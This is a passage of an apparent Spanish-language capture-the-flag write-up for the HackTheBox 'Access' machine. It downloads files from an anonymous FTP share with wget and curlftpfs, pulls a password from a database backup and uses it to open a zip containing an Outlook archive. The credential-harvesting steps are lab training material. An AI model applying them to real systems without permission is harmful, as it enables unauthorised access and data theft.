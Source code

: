 Podemos descargarnos el contenido del FTP utilizando la herramienta `wget`.

```console
intrusionz3r0@kali:~$ wget --no-passive --no-parent -r ftp://Anonymous:loquesea@access.htb
```

**Método 3:  curlftpfs.**

También se puede montar los recursos del servicio FTP utilizando la herramienta `curlftpfs`.

```console
intrusionz3r0@kali:~$ sudo mkdir /mnt/HTB/Access
intrusionz3r0@kali:~$ curlftpfs Anonymous:loquesea@access.htb /mnt/HTB/Access
```

Yo usare el segundo método.

Una vez que me descargado los archivos del servicio FTP comienzo a enumerar el directorio.
```console
intrusionz3r0@kali:~$ tree
.
├── Backups
│   └── backup.mdb
└── Engineer
    └── Access Control.zip

2 directories, 2 files
```
Nos encontramos con dos archivos, un `.zip` y un `.mbd`.

Para acceder a los archivos del `Access Control.zip` necesitamos una contraseña, asi que toda mi atención  se la llevo el archivo `backup.mdb`.

Ejecuto el comando `file` para obtener información sobre el tipo de archivo.

```console
intrusionz3r0@kali:~$ file backup.mdb
backup.mdb: Microsoft Access Database
```

Esto nos retorna que el archivo es un backup de una base de datos de access.

Como no quiero pasar el archivo a mi máquina de Windows optare por utilizar un [Visor online de bases de datos Access](https://www.mdbopener.com/es.html).

La tabla que mas destaca es `auth user`.

![](https://lh6.googleusercontent.com/_eYbmr8qRzwppgYAHdMVCQ4MABj4ntK8ykx3BVE18Z5ZxXjul0bK3sNk_-eoCCFcTWrOwYTjIz2F4APksJVgAfgCDl1JMWV2bEIF9yjhZfli4BV5o_DDlylsScIIlPTpEXLFBYSR)

Dentro almacena unas credenciales.

![](https://lh4.googleusercontent.com/Sg6yRg1KXiS02Eblv15n47Rfjaik8pmWpYhcs-eZuMEmyQJxkK0Y9MsPAv8AF_JA80118lq-QGmB7_60g4DFwXgd6p9pCQOoljQPE6t2IWZQUmpVyS-7T4royUZ4CM9AqxZ_htry)

Rápidamente regreso al archivo `.zip` y descomprimo los archivos con la contraseña: `access4u@security`.

Esto nos retorna un archivo con extensión `.pst` y nuevamente utilizo el comando `file` para obtener información sobre el tipo de archivo.
```console
intrusionz3r0@kali:~$ file Access\ Control.pst 
Access Control.pst: Microsoft Outlook email folder (>=2003)
```
Podemos observar que es una `Carpeta de correo electrónico de Microsoft Outlook`.
